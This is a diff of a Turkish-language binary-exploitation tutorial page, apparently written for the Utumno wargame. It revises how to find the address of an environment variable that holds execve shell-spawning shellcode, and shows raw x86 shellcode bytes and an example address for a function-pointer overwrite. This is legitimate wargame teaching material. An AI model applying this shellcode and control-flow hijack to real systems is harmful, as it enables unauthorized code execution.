

Before and after one commit to waitaseC137/linux_learning, a Markdown page: konu_anlatimlari/binary_exploitation/08_pointer_manipulation.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/konu_anlatimlari/binary_exploitation/08_pointer_manipulation.md
+++ b/konu_anlatimlari/binary_exploitation/08_pointer_manipulation.md
@@ -142,10 +142,12 @@ export EGG=$(python3 -c "import sys; sys.stdout.buffer.write(
     b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
 )")
 
-# 3. EGG'in adresini bul
-(gdb) break main
-(gdb) run
-(gdb) x/s *((char**)environ)
+# 3. EGG'in adresini bul — x/s *((char**)environ) KULLANMA: o environ[0]'ı (ilk
+#    env değişkenini) gösterir, EGG'i değil; ayrıca GDB içinde adres gerçek
+#    çalıştırmadan kayar. getenvaddr ile, bare shell'de, hedefle AYNI ortamda bul
+#    (helper kaynağı → 04_shellcode_ve_nop_sled.md):
+utumno3@utumno:~$ /tmp/getenvaddr EGG /utumno/utumno3
+EGG -> 0xffffde20     # örnek — NOP sled içindeki bu (null'suz) adresi fp'ye yaz
 
 # 4. fp'yi o adrese yönlendirmek için overflow payload'u hazırla
 # fp stack'te EBP-0x10'da olsun, shellcode adresi 0xffffde20 olsun (null'suz seç!)
```
Also changed, not shown: konu_anlatimlari/binary_exploitation/03_eip_register_kontrolu.md (+6 -1 lines).
